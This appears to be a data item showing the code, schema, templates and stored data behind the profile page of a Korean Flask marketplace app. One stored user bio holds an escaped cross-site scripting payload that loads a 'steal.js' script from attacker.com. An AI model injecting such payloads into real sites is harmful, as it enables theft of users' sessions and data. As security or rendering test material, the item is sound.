
/profile (signed in), run on the app's committed database.
### tables this page shows
CREATE TABLE user (
                id TEXT PRIMARY KEY,
                username TEXT UNIQUE NOT NULL,
                password TEXT NOT NULL,
                bio TEXT
            , is_inactive INTEGER DEFAULT 0, points INTEGER DEFAULT 0);

CREATE TABLE product (
                id TEXT PRIMARY KEY,
                title TEXT NOT NULL,
                description TEXT NOT NULL,
                price TEXT NOT NULL,
                seller_id TEXT NOT NULL
            , product_code TEXT);

### app.py (the view, shortened to what this page needs)
@app.route('/profile', methods=['GET', 'POST'])
def profile():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    db = get_db()
    cursor = db.cursor()
    cursor.execute("SELECT * FROM user WHERE id = ?", (session['user_id'],))
    user = cursor.fetchone()
    cursor.execute("SELECT * FROM product WHERE seller_id = ?", (session['user_id'],))
    user_products = cursor.fetchall()
    cursor.execute("SELECT * FROM user WHERE id = ?", (session['user_id'],))
    current_user = cursor.fetchone()
    return render_template('profile.html', user=current_user, user_products=user_products)

### app.py (called while the page is built)
def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
        db.row_factory = sqlite3.Row
    return db

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.before_request
def check_session_timeout():
    last_active = session.get('last_active')
    if last_active:
        last_active = datetime.strptime(last_active, "%Y-%m-%d %H:%M:%S")
        if datetime.utcnow() - last_active > timedelta(minutes=60):
            session.clear()
            flash('세션이 만료되었습니다. 다시 로그인하세요.')
            return redirect(url_for('login'))
    session['last_active'] = datetime.utcnow().strftime("%Y-%m-%d %H:%M:%S")

@app.after_request
def apply_security_headers(response):
    response.headers['Content-Security-Policy'] = (
        "default-src 'self'; "
        "script-src 'self' https://cdnjs.cloudflare.com https://cdn.socket.io; "
        "style-src 'self' 'unsafe-inline'; "
        "object-src 'none';")
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['Referrer-Policy'] = 'strict-origin-when-cross-origin'
    response.headers['Strict-Transport-Security'] = 'max-age=31536000; includeSubDomains'
    return response

### templates/profile.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<h2>{{ user.username }}님의 페이지</h2>
<h3>포인트 충전</h3>
<p>현재 보유 포인트: {{ user.points or 0 }} P</p>
<form method="post">
  <input type="number" name="charge_amount" min="1" placeholder="충전할 포인트" required>
  <button type="submit" name="charge_points">충전</button>
</form>
<h3>내가 등록한 상품 목록</h3>
{% if user_products %}
  <ul>
    {% for product in user_products %}
      <li>
        {{ product.title }}
        <a href="{{ url_for('edit_product', product_id=product.id) }}">수정</a>
        <form method="post" style="display:inline;">
          <button type="submit" name="delete_product">삭제</button>
        </form>
      </li>
    {% endfor %}
  </ul>
{% else %}
  <p>등록된 상품이 없습니다.</p>
{% endif %}
<form method="post">
  <h3>소개글 업데이트</h3>
  소개글: <br>
  <textarea name="bio" rows="4" cols="50">{{ user.bio or '' }}</textarea><br>
  <button type="submit" name="update_bio">프로필 업데이트</button>
</form>
<br>
<form method="post">
  <h3>비밀번호 변경</h3>
  <label for="current_password">현재 비밀번호:</label><br>
  <input type="password" name="current_password" required><br>
  <label for="new_password">새 비밀번호:</label><br>
  <input type="password" name="new_password" required><br>
  <label for="confirm_password">새 비밀번호 확인:</label><br>
  <input type="password" name="confirm_password" required><br>
  <button type="submit" name="update_password">비밀번호 변경</button>
</form>
{% endblock %}

### templates/base.html (style rules this page uses)
body { background-color: #F7F7F7; font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; margin: 0; padding: 0; color: #333; }
h1, h2, h3 { font-weight: 600; margin-bottom: 20px; }
input, textarea, button { width: 100%; padding: 10px; margin-bottom: 20px; border: 1px solid #e0e0e0; border-radius: 4px; font-size: 16px; }
button { background-color: #007AFF; color: #fff; border: none; cursor: pointer; transition: background-color 0.2s; width: auto; min-width: 100px; }
ul { list-style: none; padding: 0; }
li { padding: 10px; border-bottom: 1px solid #e0e0e0; }

### data on the page
user: username "aaaaaa", points "9760", bio "안녕하세요! 잘 부탁드려요 &lt;script src=&quot;http://attacker.com/steal.js&quot;&gt;&lt;/script&gt;"
product: title "chair"
product: title "뜨끈뜨끈 베이컨 한 조각"
